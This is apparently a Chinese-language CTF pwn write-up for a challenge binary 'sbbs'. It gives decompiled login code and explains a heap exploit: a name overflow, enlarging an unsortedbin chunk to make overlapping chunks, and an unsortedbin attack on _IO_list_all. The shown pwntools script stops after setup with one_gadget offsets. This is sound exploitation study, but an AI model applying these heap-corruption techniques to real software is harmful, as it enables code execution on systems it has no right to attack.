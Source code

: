 

**login**

```C
int sub_400A4A()
{
  __int64 v0; // rax
  int type; // eax
  __int64 v3; // [rsp+0h] [rbp-10h]
  __int64 *v4; // [rsp+8h] [rbp-8h]

  v4 = &name;
  if ( is_logined )
  {
    LODWORD(v0) = puts("you are already login");
  }
  else
  {
    is_logined = 1;
    puts("Please input your name");
    safe_input(&v3, 16);
    name = v3;
    puts("choice type");
    puts("0.clientele");
    puts("1.admin");
    type = get_choose();
    if ( type )
    {
      if ( type != 1 )
        exit(0);
      v0 = (__int64)(v4 + 1);
      *(_DWORD *)v0 = 0x696D6461;
      *(_WORD *)(v0 + 4) = 0x6E;
    }
    else
    {
      v0 = (__int64)(v4 + 1);
      *(_QWORD *)v0 = 0x6C65746E65696C63LL;
      *(_WORD *)(v0 + 8) = 0x65;
    }
  }
  return v0;
}
```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>唯一的漏洞点就是login中的name溢出导致存在任意地址写一个字符串，这一串字符串是不可能用来修改top chunk了因为无法绕过top chunk的页对齐检查，但我们可以用这个最后两个字节**扩大unsortedbin的大小**，这样就可以制造重叠堆块，有了重叠堆块就又可以利用unsortedbin attack写\_IO_list_all，还能修改unsortedbin的大小为0x61，攻击又可以实现了。那么首先利用UAF分配释放largebin（为什么是largebin？懒得解释了，看源码）来泄漏libc和堆基址：</font></br>



```python
from pwn import *

p=process('./sbbs')
elf=ELF('/lib/x86_64-linux-gnu/libc.so.6')

_IO_list_all=elf.symbols['_IO_list_all']
#one_gadget=0x45216
#one_gadget=0x4526A
#one_gadget=0xf02a4
one_gadget=0xf1147

context.log_level=1

```